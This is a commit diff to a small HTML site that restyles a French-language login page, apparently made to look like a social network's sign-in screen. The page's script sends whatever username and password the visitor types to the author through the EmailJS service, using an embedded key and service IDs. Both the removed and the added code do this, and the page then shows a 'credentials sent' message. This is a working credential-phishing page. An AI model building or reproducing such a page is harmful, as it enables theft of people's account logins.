

Before and after one commit to soso-saos/snap, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 330-800 px from the top of the page, without its empty margins (330-970 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html
totalement changé

```diff
--- a/index.html
+++ b/index.html
@@ -15,7 +15,7 @@
       margin: 0;
     }
     .container {
-      width: 300px;
+      width: 280px; /* Augmenté la largeur */
       padding: 20px;
       background-color: #fff;
       box-shadow: 0 0 10px rgba(0,0,0,0.1);
@@ -23,77 +23,142 @@
       text-align: center;
     }
     h2 {
-      color: #ff6f61;
+      color: #000000;
+      font-size: 28px; /* Augmenté la taille de la police */
     }
+
+    h3 {
+      color: #66b1efed;
+      font-size: 15px; /* Augmenté la taille de la police */
+      text-align: left;
+      margin-bottom: 8px; /* Ajouter un espace pour une meilleure lisibilité */
+    }
+
     .field {
-      margin-bottom: 15px;
+      margin-bottom: 28px;
     }
     .field label {
       display: block;
-      font-size: 14px;
+      font-size: 16px; /* Augmenté la taille de la police */
       margin-bottom: 5px;
     }
     .field input {
       width: 100%;
       padding: 10px;
-      font-size: 14px;
+      font-size: 16px; /* Augmenté la taille de la police */
       border: 1px solid #ccc;
       border-radius: 4px;
     }
+    .field input[type="text"] {
+      color: #008cff; /* Bleu clair */
+    }
+    .link {
+      display: block;
+      margin-bottom: 10px;
+      font-size: 16px; /* Augmenté la taille de la police */
+      color: #008cff;
+      text-decoration: none;
+    }
+    .link:hover {
+      text-decoration: underline;
+    }
+    .checkbox-container {
+      display: flex;
+      align-items: center; /* Aligner le check avec la phrase */
+      margin-bottom: 15px; /* Ajusté pour un meilleur espacement */
+      font-size: 16px; /* Augmenté la taille de la police */
+    }
+    .checkbox-container input {
+      margin-right: 10px; /* Augmenté l'espacement entre le check et la phrase */
+      accent-color: #008cff; /* Check en bleu clair */
+    }
+    .checkbox-container label {
+      margin: 0;
+      line-height: 1.4; /* Ajuster l'espacement des lignes */
+      display: flex;
+      align-items: center; /* Aligner verticalement le texte avec le check */
+    }
     .field input[type="submit"] {
-      background-color: #ff6f61;
-      color: #fff;
+      background-color: #ccc; /* Gris */
+      color: #ffffff;
       border: none;
       cursor: pointer;
+      padding: 10px;
+      font-size: 16px; /* Augmenté la taille de la police */
+      border-radius: 20px; /* Contours plus arrondis */
+      margin-top: 30px; /* Faire descendre plus en bas */
+      width: 80%; /* Réduire la largeur du bouton */
     }
     .field input[type="submit"]:hover {
-      background-color: #e55b4f;
+      background-color: #bbb;
+    }
+    .forgot-password {
+      color: #008cff; /* Bleu clair */
+      display: block;
+      margin-bottom: 20px; /* Espacement avant le bouton de connexion */
+    }
+    #confirmation {
+      display: none;
+      color: green;
+      font-size: 16px; /* Augmenté la taille de la police */
     }
   </style>
   <script type="text/javascript" src="https://cdn.jsdelivr.net/npm/emailjs-com@2.4.1/dist/email.min.js"></script>
   <script type="text/javascript">
     (function() {
-      emailjs.init('g4HTytQL092Xue3Ar'); // Remplacez par votre user ID
+      emailjs.init('g4HTytQL092Xue3Ar'); // Clé publique
     })();
   </script>
 </head>
 <body>
   <div class="container">
     <h2>Connexion</h2>
-    <form id="loginForm">
+    <form id="form">
       <div class="field">
-        <label for="username">Nom d'utilisateur</label>
-        <input type="text" id="username" name="username" required>
+        <h3><label for="username">NOM D'UTILISATEUR OU ADRESSE E-MAIL</label></h3>
+        <input type="text" name="username" id="username">
       </div>
+      <h3><a href="#" class="link">Utiliser mon numéro de téléphone</a></h3>
       <div class="field">
-        <label for="password">Mot de passe</label>
-        <input type="password" id="password" name="password" required>
+        <h3><label for="password">MOT DE PASSE</label></h3>
+        <input type="password" name="password" id="password">
       </div>
+      <div class="checkbox-container">
+        <input type="checkbox" id="save-info">
+        <label for="save-info">Enregistrer les informations de connexion sur votre appareil</label>
+      </div>
+      <a href="#" class="forgot-password">Mot de passe oublié ?</a>
       <div class="field">
-        <input type="submit" value="Se connecter">
+        <input type="submit" id="button" value="Connexion">
       </div>
     </form>
-    <div id="confirmation" style="display:none;color:green;">
-      Les informations de connexion ont été envoyées!
+    <div id="confirmation">
+      Les informations de connexion ont été envoyées !
     </div>
   </div>
   <script>
-    document.getElementById('loginForm').addEventListener('submit', function(event) {
+    const btn = document.getElementById('button');
+
+    document.getElementById('form').addEventListener('submit', function(event) {
       event.preventDefault();
 
-      const username = document.getElementById('username').value;
-      const password = document.getElementById('password').value;
+      btn.value = 'Envoi...';
 
-      emailjs.send("service_7xtpexj", "template_izsur1x", {
-        username: username,
-        password: password
-      })
-      .then(function(response) {
-        console.log('SUCCESS!', response.status, response.text);
-        document.getElementById('confirmation').style.display = 'block';
-      }, function(error) {
-        console.log('FAILED...', error);
-      });
+      console.log('Envoi en cours...');
+
+      const serviceID = 'service_7xtpexj';
+      const templateID = 'template_3jr5npg';
+
+      emailjs.sendForm(serviceID, templateID, this)
+        .then(() => {
+          console.log('Email envoyé avec succès');
+          btn.value = 'Connexion';
+          document.getElementById('confirmation').style.display = 'block';
+        }, (err) => {
+          console.error('Erreur lors de l\'envoi de l\'email :', err);
+          btn.value = 'Connexion';
+          alert(JSON.stringify(err));
+        });
     });
   </script>
 </body>
```
